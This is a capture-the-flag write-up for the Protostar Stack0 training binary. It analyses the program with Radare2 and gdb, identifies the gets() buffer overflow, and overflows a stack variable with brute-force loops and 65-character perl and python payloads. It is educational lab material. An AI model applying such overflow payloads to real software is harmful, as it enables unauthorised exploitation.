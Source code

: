 # Protostar Stack0
## Write-up plan
 - [x] Use Radare2 to identify what C APIs were used
 - [x] Run the vulnerable code
 - [x] Try a simple Brute Force script
 - [x] Attach a Debugger to understand what was happening
 - [x] Read the Code to check my results


## Static Analysis
##### Open and analyse the binary
`r2 -A stack0`
##### Familiarity
```
[0x1000015f0]> i
file     stack0
format   elf
type     EXEC (Executable file)
arch     x86
canary   false
crypto   false
endian   little
lang     c
os       linux
pic      false
static   false
stripped false
.....
```
##### Imports
```
[0x080483f4]> ii
[Imports]
   1 0x080482fc    WEAK  NOTYPE __gmon_start__
   2 0x0804830c  GLOBAL    FUNC gets
   3 0x0804831c  GLOBAL    FUNC __libc_start_main
   4 0x0804832c  GLOBAL    FUNC puts
```

#####  gets
This is what `man gets` tells you:


> The gets() function cannot be used securely.  Because
>      of its lack of bounds checking, and the inability for
>      the calling program to reliably determine the length
>      of the next incoming line, the use of this function
>      enables malicious users to arbitrarily change a run-
>      ning program's functionality through a buffer over-
>      flow attack.

##### Exports
```
[0x08048340]> iE
066 0x000003f4 0x080483f4 GLOBAL   FUNC   65 main
```
##### Look for interesting Strings
```
fs strings; f
0x08048500 41 str.you_have_changed_the__modified__variable
0x08048529 11 str.Try_again
```
##### Print disassembled function
```
[0x08048340]> pdf @0x080483f4
/ (fcn) main 65
|   main ();
|           ; var char *s @ esp+0x1c
|           ; var int local_5ch @ esp+0x5c
|           ; DATA XREF from entry0 (0x8048357)
|           0x080483f4      55             push ebp
|           0x080483f5      89e5           mov ebp, esp
|           0x080483f7      83e4f0         and esp, 0xfffffff0
|           0x080483fa      83ec60         sub esp, 0x60               ; '`'
|           0x080483fd      c744245c0000.  mov dword [local_5ch], 0
|           0x08048405      8d44241c       lea eax, [s]                ; 0x1c ; 28
|           0x08048409      890424         mov dword [esp], eax        ; char *s
|           0x0804840c      e8fbfeffff     call sym.imp.gets           ; char *gets(char *s)
|           0x08048411      8b44245c       mov eax, dword [local_5ch]  ; [0x5c:4]=-1 ; '\' ; 92
|           0x08048415      85c0           test eax, eax
|       ,=< 0x08048417      740e           je 0x8048427
|       |   0x08048419      c70424008504.  mov dword [esp], str.you_have_changed_the__modified__variable ; [0x8048500:4]=0x20756f79 ; "you have changed the 'modified' variable" ; const char *s
|       |   0x08048420      e807ffffff     call sym.imp.puts           ; int puts(const char *s)
|      ,==< 0x08048425      eb0c           jmp 0x8048433
|      ||   ; CODE XREF from main (0x8048417)
|      |`-> 0x08048427      c70424298504.  mov dword [esp], str.Try_again ; [0x8048529:4]=0x20797254 ; "Try again?" ; const char *s
|      |    0x0804842e      e8f9feffff     call sym.imp.puts           ; int puts(const char *s)
|      |    ; CODE XREF from main (0x8048425)
|      `--> 0x08048433      c9             leave
\           0x08048434      c3             ret
```

## Run vulnerable code
```
$ ./stack0      
ss
Try again?
```
## Brute Force vulnerable code
```
#!/bin/bash
for i in {1..70}
do
 seq -sA $i|tr -d '[:digit:]' | ./stack0
done
```
### Use codetools
```
$ perl -e 'print "A"x65'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

$ echo AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA | /opt/protostar/bin/stack0
you have changed the 'modified' variable

$ python -c 'print "A"*(64)'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
$ python -c 'print "A"*(64)' | /opt/protostar/bin/stack0
Try again?

$ python -c 'print "A"*(65)' | /opt/protostar/bin/stack0
you have changed the 'modified' variable
```

## Run vulnerable code in debugger
```
(gdb) r
Starting program: /opt/protostar/bin/stack0
a
Try again?

Program exited with code 013.
```


### Convert Hex to Decimal
```
$ printf "%02X\n" 65
41

$ printf "%d\n" 0x5C
92
```
